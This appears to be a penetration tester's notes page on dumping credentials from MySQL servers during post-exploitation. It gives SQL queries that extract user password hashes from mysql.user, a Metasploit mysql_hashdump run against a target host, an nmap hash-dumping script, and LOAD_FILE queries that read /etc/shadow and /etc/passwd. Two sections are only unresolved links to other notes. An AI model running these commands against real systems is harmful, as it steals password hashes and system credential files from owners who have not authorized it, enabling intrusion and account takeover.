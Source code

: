 # MySQL

## 01 - DBMS Hashdump

### 1.1 - Manual

- Method 1:

```
MySQL [(none)]> SELECT user,authentication_string from mysql.user;

MySQL [(none)]> SELECT user,password from mysql.user;
```

- Method 2:

```
MySQL [(none)]> use mysql;

MySQL [(mysql)]> SELECT user,authentication_string from user;

MySQL [(mysql)]> SELECT user,password from user;
```

### 1.2 - Metasploit

```
msf > use auxiliary/scanner/mysql/mysql_hashdump

msf auxiliary(scanner/mysql/mysql_hashdump) > options

Module options (auxiliary/scanner/mysql/mysql_hashdump):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   PASSWORD                   no        The password for the specified username
   RHOSTS                     yes       The target host(s), see https://github.com/rapid7/metasploit-framework/wiki/Using-Metasploit
   RPORT     3306             yes       The target port (TCP)
   THREADS   1                yes       The number of concurrent threads (max one per host)
   USERNAME                   no        The username to authenticate as

msf auxiliary(scanner/mysql/mysql_hashdump) > run mysql://<username>:<password>@<IP>
```

### 1.3 - Network Mapper

```
$ nmap -p 3306 --script mysql-dump-hashes --script-args "username='<username>',password='<password>'" <IP>
```

## 02 - Enumerate Instance

![[06 - Tactics & Techniques & Procedures (TTPs) Phases/F - Post Exploitation/0x00 - Discovery/Cross Platform/Networking/Databases/SQL/MySQL/Scanners/Metasploit#^7426c9]]

## 03 - Operating System Hashdump

### 3.1 - Manual

```
MySQL [(none)]> SELECT LOAD_FILE('/etc/shadow');

MySQL [(none)]> SELECT LOAD_FILE('/etc/passwd');
```

### 3.2 - Metasploit

![[06 - Tactics & Techniques & Procedures (TTPs) Phases/F - Post Exploitation/0x00 - Discovery/Cross Platform/Networking/Databases/SQL/MySQL/Scanners/Metasploit#^080e98]]
